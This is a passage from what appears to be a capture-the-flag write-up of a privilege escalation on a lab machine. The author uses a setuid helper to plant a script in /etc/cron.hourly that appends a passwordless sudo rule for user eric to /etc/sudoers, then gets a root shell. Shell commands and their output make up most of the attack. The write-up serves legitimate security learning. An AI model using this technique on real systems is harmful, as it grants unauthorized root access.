 wait a bit

```bash
eric@BM:~$ sleep 3600

eric@BM:~$
eric@BM:~$ ls -l /tmp/
total 44
drwxr-xr-x 2 root root 4096 Sep 23 02:47 hsperfdata_root
-rwxr-xr-x 1 root root 8656 Sep 23 05:17 root
drwx------ 3 root root 4096 Sep 23 02:47 systemd-private-6b8d1f109a10455296c7a8bc769e017e-systemd-timesyncd.service-oKv41e
-rw-rw-r-- 1 eric eric   60 Sep 23 04:10 test.c
-rw-rw-r-- 1 eric eric   60 Sep 23 04:15 test.sh
-rwxrwxr-x 1 eric eric 8656 Sep 23 04:11 try1
drwx------ 2 root root 4096 Sep 23 02:47 vmware-root
```
we have a new file `root`

```bash
eric@BM:~$ /tmp/root
eric@BM:~$ id
uid=1002(eric) gid=1002(eric) groups=1002(eric)
```
well that was a long wait for that to fail.

### escalation again

ok so from the fail first time around i know i can execute as `root` (just have to wait an hour). maybe if i give eric sudo permissions

```bash
eric@BM:~$ touch sudoers
eric@BM:~$ /usr/local/share/sgml/donpcgd ~/sudoers /etc/cron.hourly/sudoers
#### mknod(/etc/cron.hourly/sudoers,81b4,0)
eric@BM:~$ echo -e '#!/bin/bash\necho "eric ALL=(ALL) NOPASSWD:ALL" >>/etc/sudoers' >> /etc/cron.hourly/sudoers
eric@BM:~$ chmod +x /etc/cron.hourly/sudoers
eric@BM:~$ sleep 3600
```

can i sudo ?

```bash
eric@BM:~$ sudo su
root@BM:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
```

looks like it, i really want to know why my first attempt failed, but i could not work it out. Anyway this box is now rooted, but on with the story

### flag

lots of scripts in roots home dir
